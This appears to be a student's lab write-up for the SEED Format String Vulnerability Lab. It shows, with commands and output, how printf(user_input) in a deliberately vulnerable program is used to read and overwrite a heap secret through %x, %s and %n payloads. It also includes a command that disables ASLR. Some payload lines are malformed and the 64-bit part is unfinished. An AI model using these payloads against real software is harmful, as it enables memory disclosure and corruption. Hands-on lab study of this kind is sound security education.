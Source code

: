 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/

# Lab1

Files:
- Makefile
- vul_prog.c

## Summary
`vul_prog.c` give a malloced array `secret` and asked you to get the value of `scret[1]` and overwrite it.
I can do that when this program compiled as 32 bits but there still some unsolved problems in 64 bit.

`vul_prog.c` give us the address of `secret` every times, it means that ASLR is no longer vaild.

below is the varibles memory layout of vul_prog in my machine:

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    ...
    Please enter a string
    ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

> Doubt: I don't know why there are 8 bytes between `user_input` and `int_input`

## Access varible

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */

    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, `printf` print a user-input string without any parameter (IT IS DANGREOUS),
we can use it to access varible on stack.

first, find the location of `int_input`:

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

> 57005 = 0xdead

so we can access `int_input` by input string `'%x'*9`, and `secret` can be accessd by `'%x'*10`.

How to get the value of `scret[0]`?

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

`hex(ord('D'))` is `0x44`, the vaule of `secret[0]`.

How to get the value of `scret[1]`?

We can control the value of `int_input`, and we know the address of `secret[1]` (from the output of program),
more convience, we can close ASLR so that we don't need to input the variable address everytime.

    $ su -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

> randomize_va_space values
> 1. Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.  
> 2. Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.  
> 3. Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

Address of `secret[1]` is 0x804a414, converts to decimal is 134521876:

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

`hex(ord('U'))` is `0x55`, the vaule of `secret[1]`.

## Overwrite varible

> %n: Nothing printed. The corresponding argument must be a pointer to a signed int. The number of characters written so far is stored in the pointed location.

Use `%n` write a vaule to `scret[1]`:

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

`secret[1]` has changed to 0x3b

Write a arbitrary (?) value to `scret[1]` (by controlling the length of output string):

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" |
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string will causes segmentation fault. (is it right?)

## 64 bit

To get a 64bit executable, invoke `make ARCH=64 vul_prog.out`

Memory layout:

    sizeof(int *): 8
    userinput 0x7fffffffe550
    secret 0x7fffffffe548
    int_input 0x7fffffffe544
    a 0x7fffffffe540
    b 0x7fffffffe53c
    c 0x7fffffffe538
    d 0x7fffffffe534
    The variable secret's address is 0xffffe548 (on stack)
    The variable secret's value is 0x  601420 (on heap)
    secret[0]'s address is 0x  601420 (on heap)
    secret[1]'s address is 0x  601424 (on heap)

> NOTE: size of x64 stack cell is 8 byte, sizeof(int) = 4, sizeof(int *) = 8

     high                low
    |-----------------------|
    |         secret        |
    |-----------------------|
    | int_input |     a     |
    |-----------------------|
    |    b      |     c     |
    |-----------------------|
    |    d      |           |
    |-----------------------|
     low

Access `secret[0]`:

    $ python -c "print('57005'); print('%016lx-'*10 + '%s')" | ./vul_prog.out
    ...
    0000000000000001-00007ffff7dd5770-000000000000000a-0000000000400a30-0000000000000000-\
    00007fffffffe6a8-0000000100000000-0000000400000000-0000000200000003-0000dead00000001-D
                                                                            ^^^^         ^
    ...

Overwrite `secret[1]`:
    // TODO

    python -c "print('57005'); print('\x24\x14\x60\x60\x00'+ '%016lx-' * 12)" | ./vul_prog.out

# Lab2
